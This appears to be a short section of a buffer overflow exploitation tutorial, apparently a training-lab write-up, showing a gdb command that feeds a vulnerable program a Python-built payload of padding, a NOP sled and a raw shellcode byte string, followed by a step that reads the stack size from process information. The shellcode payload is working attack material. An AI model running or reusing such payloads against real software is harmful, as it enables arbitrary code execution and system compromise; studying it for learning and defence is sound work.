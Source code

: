 # Generating Shellcode Section
![image](https://user-images.githubusercontent.com/87600765/146055566-e28fb669-89e6-4e43-acf8-783258527b48.png)
```nasm
run $(python -c 'print "\x55" * 817 + "\x90" * 124 + "\xba\xff\xce\xd4\x94\xda\xd4\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x12\x31\x53\x12\x83\xeb\xfc\x03\xac\xc0\x36\x61\x63\x06\x41\x69\xd0\xfb\xfd\x04\xd4\x72\xe0\x69\xbe\x49\x63\x1a\x67\xe2\x5b\xd0\x17\x4b\xdd\x13\x7f\x33\x1d\xe4\x7e\xa3\x1f\xe4\xfa\x5a\xa9\x05\x4a\xfa\xf9\x94\xf9\xb0\xf9\x9f\x1c\x7b\x7d\xcd\xb6\xea\x51\x81\x2e\x9b\x82\x4a\xcc\x32\x54\x77\x42\x96\xef\x99\xd2\x13\x3d\xd9" + "\x66" * 4')
```
After executing this command we want to know the stack size after overwriting eip.
```nasm
info proc all
```
`info proc all` shows all the information about the process described under all of the above `info proc` subcommands.
We will have this 
```nasm
...<SNIP>...
0xfffdd000 0xffffe000    0x21000        0x0 [stack]
...<SNIP>...
```
So the stack size is `0x21000`.

![Pasted image 20211204083730](https://user-images.githubusercontent.com/87600765/146055707-6195069e-4cbf-41ce-89dc-a778a36f6216.png)
